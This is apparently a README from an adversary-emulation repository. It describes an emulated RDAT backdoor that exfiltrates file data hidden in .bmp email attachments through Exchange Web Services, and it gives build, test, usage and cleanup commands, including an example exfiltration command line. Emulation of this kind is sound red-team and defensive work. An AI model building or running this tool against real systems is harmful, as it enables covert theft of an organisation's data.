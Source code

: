 # RDAT

RDAT is a backdoor used by the suspected Iranian threat group OilRig. RDAT was originally identified in 2017 and targeted companies in the telecommunications sector.[1][2]
This emulated version of RDAT will leverage the EWS API by loading Microsoft.Exchange.WebServices.dll. It will connect to the EWS email server and send emails with a .bmp that contains chunks of data from given file to be exfiltrated.

Microsoft.Exchange.WebServices.dll is not included by default in this repository. Follow Microsoft's [documentation](https://docs.microsoft.com/en-us/exchange/client-developer/exchange-web-services/how-to-reference-the-ews-managed-api-assembly) for retrieving the DLL from an existing installation of Exchange or for using the open source EWS Managed API. The DLL should be placed in `Resources/RDAT` for building the RDAT executable.

**NOTE:** Tests and usage assume an Exchange server has been configured for the environment and
should be run from a domain joined Windows host with network access to the Exchange server. This
implementation also expects a username and passowrd for a configured user that can authenticate to
the Exchange server.

# Build Instructions

## Windows

### Download .NET 6.0 SDK x64 for Windows
<https://dotnet.microsoft.com/en-us/download/dotnet/6.0>

### Build EXE

Open a command (cmd.exe) prompt

```
# from \Resources\RDAT\

dotnet publish -c Release -r win10-x64 -p:PublishSingleFile=true /p:DebugType=None /p:DebugSymbols=false
cd .\bin\Release\net6.0\win10-x64\publish\
```

**The compiled binary should be copied to Resources\payloads\TwoFace for Step 8 and 10.**

## Test Instructions

Open a command (cmd.exe) prompt

```
# from \Resources\RDAT\

powershell.exe .\test.ps1 [user] [password] [domain] [server_address] # Order has to be exact
# Example: powershell.exe .\test.ps1 user_account 1234567 domain.com 10.0.0.1
```

## Usage Examples

Go to running directory of RDAT.exe

```
.\RDAT.exe --help
.\RDAT.exe --path="C:\Users\Public\FileToBeExfiltrated.txt" --from="user_account@domain.com" --password="1234567" --to="recipient@domain.com" --server="10.0.0.1" --chunksize="20000"
```

## Cleanup Instructions

Go to running directory of RDAT.exe

```
rm .\RDAT.exe
rm .\guest.bmp
rm .\guest.bmp.tmp
```

## CTI Evidence

[1] <https://attack.mitre.org/software/S0495/>
[2] <https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/>
